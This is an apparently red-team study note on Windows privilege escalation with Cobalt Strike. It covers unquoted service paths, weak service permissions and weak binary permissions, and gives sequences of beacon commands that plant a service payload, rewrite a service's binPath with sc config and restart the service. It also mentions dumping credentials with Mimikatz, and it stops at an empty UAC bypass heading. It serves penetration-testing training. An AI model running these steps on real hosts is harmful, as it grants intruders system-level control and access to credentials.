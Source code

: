 # Host Privilege Escalation

Not always needed, but helps in lateral movement and doing high-priv naughty things. It should only be sought if it provides a means of reaching a goal, not something done for ego or cred. Some capabilities that can be done:

* Dumping creds with Mimikatz
* Sneaky persistence
* Manipulating host configuration (e.g. firewall)

Common entrypoints include software misconfigurations and missing patches. [SharpUp](https://github.com/GhostPack/SharpUp) can enumerate these.

## Windows Services

Just a startup application run by the OS. How to see:

* Open services.msc
* Command line: ```sc query```
* PS: ```Get-Service | fl```

Properties to look for:

* Binary Path
* Startup Type
* Service Status
* Log On As - highly-privileged services make escalation easy (need to restart service to apply -- sometimes need to wait until machine is restarted)
* Dependants/Dependencies

Remember to restore the service configuration once you are done.

## Unquoted Service Paths

The path to the service binary is not wrapped in quotes. Under specific conditions it can lead to an elevation of privilege.

From beacon: ```run wmic service get name, pathname```
If see something unquoted like ```VulnService1    C:\Program Files\Vulnerable Services\Service 1.exe```, vulnerable places to drop a binary (which would run before the real exe) would be:
1. C:\**Program.exe**
2. C:\Program Files\**Vulnerable.exe**
3. C:\Program Files\Vulnerable Services\**Service.exe**

Check for permission to write to those directories from beacon: ```powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl```

Or just use SharpUp: ```execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath```

Payloads that work here are the ones with ```svc``` in the name to be service binaries. Recommend using TCP beacons bound to localhost only for privilege escalations. The new beacon does not appear in the UI automatically, but should see the port used in the TCP listener is listening on 127.0.0.1. Then ```connect localhost <port>``` to link to beacon. To restore the service, simply delete Service.exe and restart the service.

## Weak Service Permissions

SharpUp may shows that a service is modifiable, but need to know what permissions are. [Get-ServiceAcl](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls) does this. From beacon: ```powershell Get-ServiceAcl -Name VulnService | select -expand Access```. Look for ChangeConfig, Start, and Stop privs.

From beacon:
1. ```run sc qc VulnService``` - validate path
2. ```mkdir C:\Temp```
3. ```cd C:\Temp```
4. ```upload C:\Payloads\tcp-local_x64.svc.exe```
5. ```run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe```
6. ```run sc qc VulnService``` - validate changed path
7. ```run sc stop VulnService```
8. ```run sc start VulnService```
9. ```connect localhost <port>```
10. To restore the original path: ```run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"```

## Weak Service Binary Permissions

For when the weak permissions are on the service binary itself.

PS: ```Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl```  If this shows Modify privileges over a binary, can overwrite it (make backup first) from beacon, e.g.: ```upload C:\Payloads\Service 3.exe```. If get an error, might need to stop the service (then restart it after replacing): ```run sc {stop|start} VulnService3```

## UAC Bypasses




